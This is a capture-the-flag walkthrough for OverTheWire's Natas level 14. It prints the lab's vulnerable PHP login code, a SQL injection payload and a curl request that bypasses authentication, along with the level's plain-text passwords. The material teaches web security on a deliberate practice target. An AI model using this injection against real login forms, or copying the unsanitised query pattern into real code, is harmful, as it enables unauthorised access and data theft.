 # NATAS LEVEL 14

```
http://overthewire.org/wargames/natas/natas14.html
```

```
Username: natas14
Password: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
URL:      http://natas14.natas.labs.overthewire.org
```

<img src='index.jpg' width=500px>

### SOLUTION

#### CODE INSPECTION

```
<html> 
<head> 
<!-- This stuff in the header has nothing to do with the level --> 
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css"> 
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" /> 
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" /> 
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script> 
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script> 
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script> 
<script>var wechallinfo = { "level": "natas14", "pass": "<censored>" };</script></head> 
<body> 
<h1>natas14</h1> 
<div id="content"> 
<? 
if(array_key_exists("username", $_REQUEST)) { 
    $link = mysql_connect('localhost', 'natas14', '<censored>'); 
    mysql_select_db('natas14', $link); 
     
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\""; 
    if(array_key_exists("debug", $_GET)) { 
        echo "Executing query: $query<br>"; 
    } 

    if(mysql_num_rows(mysql_query($query, $link)) > 0) { 
            echo "Successful login! The password for natas15 is <censored><br>"; 
    } else { 
            echo "Access denied!<br>"; 
    } 
    mysql_close($link); 
} else { 
?> 

<form action="index.php" method="POST"> 
Username: <input name="username"><br> 
Password: <input name="password"><br> 
<input type="submit" value="Login" /> 
</form> 
<? } ?> 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div> 
</div> 
</body> 
</html> 
```

Reading the code, we see that:

- the webapp connects to a database on `localhost` called `natas14`
- there is a SQL `SELECT` query for matches on `username` and `password` 
- if the number of returned rows from the query is > 0, password is revealed
- we note there appears to be a debug flag called `debug` that would yield
  the SQL `SELECT` query being executed

A little test program to see what the SQL query looks like..

```
$ cat app.php
<?

$REQUEST_username = "test";
$REQUEST_password = "1234";

$query = "SELECT * from users where username=\"".$REQUEST_username."\" and password=\"".$REQUEST_password."\"";

echo "Executing query: $query\n";
?>
$ php app.php
Executing query: SELECT * from users where username="test" and password="1234"
```

This looks like a simple SQL injection problem. Let's take advantage of the
"debug" mode which is triggered by a `GET` request (as opposed to the `POST`
request we make when we use the form).

Crafting a URL like so..

```
http://natas14.natas.labs.overthewire.org/index.php?username=test_username&password=test_password&debug
```

```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas14", "pass": "Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1" };</script></head>
<body>
<h1>natas14</h1>
<div id="content">
Executing query: SELECT * from users where username="test_username" and password="test_password"<br>Access denied!<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

#### SQL INJECTION

We see from the code that our inputs are used directly into the SQL statement.
If we pass in a username string that modifies the SQL statement to always
evaluate to true and leverage the SQL inline comment `--` to mask out any
troublesome bits, we should be able to get the password.

A username like `test_username" OR 1=1 -- ` would:

1. syntactically complete the `where username="test_username" clause so we
   don't cause a syntax error with our SQL `SELECT` statement
2. introduce a new clause `OR 1=1` that will always evaulate to true
3. leverage the SQL inline comment `--` to render the rest of the SQL command
   (such as the pesky `and password` clause) as comments to be ignored

The resulting SQL query should look something like:

```
SELECT * from users where username="test_username" or 1=1 -- " and password="test_password"
```

Our `GET` URL will look like this..

```
http://natas14.natas.labs.overthewire.org/index.php?username=test_username%22%20OR%201=1%20--%20&password=test_password&debug
```

```
$ curl 'http://natas14.natas.labs.overthewire.org/index.php?username=test_username%22%20or%201=1%20--%20&password=test_password&debug' \
  -H 'Authorization: Basic bmF0YXMxNDpMZzk2TTEwVGRmYVB5VkJrSmRqeW1ibGxRNUw2cWRsMQ=='
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas14", "pass": "Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1" };</script></head>
<body>
<h1>natas14</h1>
<div id="content">
Executing query: SELECT * from users where username="test_username" or 1=1 -- " and password="test_password"<br>Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
